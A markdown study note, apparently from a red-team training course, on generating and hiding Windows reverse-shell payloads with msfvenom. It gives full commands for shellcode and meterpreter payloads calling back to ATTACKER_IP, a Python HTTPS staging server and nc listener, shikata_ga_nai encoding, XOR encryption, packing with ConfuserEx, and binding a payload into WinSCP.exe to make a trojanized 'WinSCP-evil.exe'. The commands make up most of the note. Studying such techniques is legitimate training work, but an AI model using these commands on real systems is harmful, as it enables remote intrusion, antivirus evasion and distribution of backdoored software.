 ```yaml
---
dg-publish: true
---
```







## ==Stageless Payloads==

- Embeds the final shellcode directly into itself.
- After the program is executed, the embedded shellcode will run, providing a reverse shell to the attacker.

## ==Staged Payloads==

- Work by using intermediary shellcodes called stager, provides a means to retrieve the final shellcode.

## ==Stagers in msf==

### Stageless

```C#
windows/x64/shell_reverse_tcp
```

### Staged

```C#
windows/x64/shell/reverse_tcp
```

- Refer to csharp_workshop for more payloads.x

## ==Using stager to run a reverse shell==

```Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

- After this, setup up a HTTPS server.

```Shell
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

- After this, spawn a simple HTTPS server with py3.

```Shell
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

- Set up an nc listener to receive the reverse shell on the same port specified when running msfvenom

```Shell
nc -lvp 7474
```

## ==Encoding==

- Listing encoders with msfvenom

```Shell
msfvenom --list encoders | grep excellent
```

- Choose shikata_ga_nai and then specify the payload three times with -i.

```Shell
msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

## ==Encryption==

```Shell
msfvenom --list encrypt
```

- Build an XOR encrypted payload. Specify a key.

```Shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

## ==Packing & Unpacking==

- generate a new shellcode and put it into the `shellcode` variable of the code

```Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

- After this, compile the program

```Shell
csc UnEncStagelessPayload.cs
```

- Use ConfuserEx for packing.

## ==Binding==

- Bind a payload with the application executable with msfvenom.
- For this task, backdoor WinSCP executable available.

```Shell
msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

- Binders won't do much to hide your payload from an AV solution. The simple fact of joining two executables without any changes means that the resulting executable will still trigger any signature that the original payload did.